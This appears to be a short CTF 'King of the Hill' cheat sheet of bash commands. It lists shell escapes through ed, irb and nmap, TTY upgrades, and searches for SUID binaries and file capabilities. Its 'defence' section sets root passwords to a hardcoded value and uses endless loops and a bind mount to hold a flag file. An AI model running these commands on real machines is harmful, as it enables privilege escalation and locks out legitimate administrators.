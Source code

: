 ```bash
# Is ed present on the target machines?
ed
!sh

# IRB Present on the target machine?
exec "/bin/sh"

# Is Nmap present on the target machine?
nmap --interactive
nmap> !sh
```

#################################################################
# Breaking out of not permitted
```bash
script -q /dev/null
script /dev/null -c /bin/bash
```

#################################################################
##  Checking for SUID Binary
```bash
find / -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find ~ -perm 4000 2>/dev/null
find ~ -u=s -type f 2>/dev/null
find / -perm /4000 2>/dev/null
getcap -r / 2>/dev/null
```
#################################################################
### Defence 
```bash
#Patching root access
chmod -s /usr/bin/pkexec
chmod u-s /usr/bin/pkexec
				
#Changing root/user password
echo -e "cyber2024\ncyber2024" | passwd root
echo -e "cyber2024\ncyber2024" | passwd user

# Protecting king flag
# LINUX
while [ 1 ]; do chattr -ia /root/king.txt 2>/dev/null; echo -n "CyberxploitHausa" >| /root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done &

chattr -i /root/king.txt
while [[ $(cat /root/king.txt) != "[CyberxploitHausa]" ]]; do echo "[CyberxploitHausa]" >> /root/king.txt; done  &

# Mount root dir
lessecho CyberxploitHausa > /root/king.txt && dd if=/dev/zero of=/dev/shm/root_f bs=1000 count=100 && mkfs.ext3 /dev/shm/root_f && mkdir /dev/shm/sqashfs && mount -o loop /dev/shm/root_f /dev/shm/sqashfs/ && chmod -R 777 /dev/shm/sqashfs/ && lessecho CyberxploitHausa > /dev/shm/sqashfs/king.txt && mount -o ro,remount /dev/shm/sqashfs && mount -o bind /dev/shm/sqashfs/king.txt /root/king.txt && rm -rf /dev/shm/root_f 

# [undo the above]
umount -l /root/king.txt or umount -l /root

# Running root as cron job
```